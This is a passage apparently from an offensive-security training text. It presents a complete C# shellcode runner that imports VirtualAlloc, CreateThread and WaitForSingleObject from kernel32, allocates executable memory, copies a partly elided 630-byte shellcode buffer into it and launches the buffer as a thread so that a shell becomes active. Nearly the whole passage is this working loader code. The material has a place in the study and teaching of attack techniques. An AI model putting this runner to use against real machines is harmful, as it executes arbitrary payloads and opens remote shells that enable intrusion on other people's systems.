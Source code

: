 > Listing 31 - Win32 APIs called from C# to execute shellcode

We'll once again use the _WaitForSingleObject_ API to let the shellcode finish execution. Otherwise, the Jscript execution would terminate the process before the shell becomes active.

Here's the full code of our C# shellcode runner:

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {
            byte[] buf = new byte[630] {
  0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
  ...
  0x58,0xc3,0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5 };

            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}

```
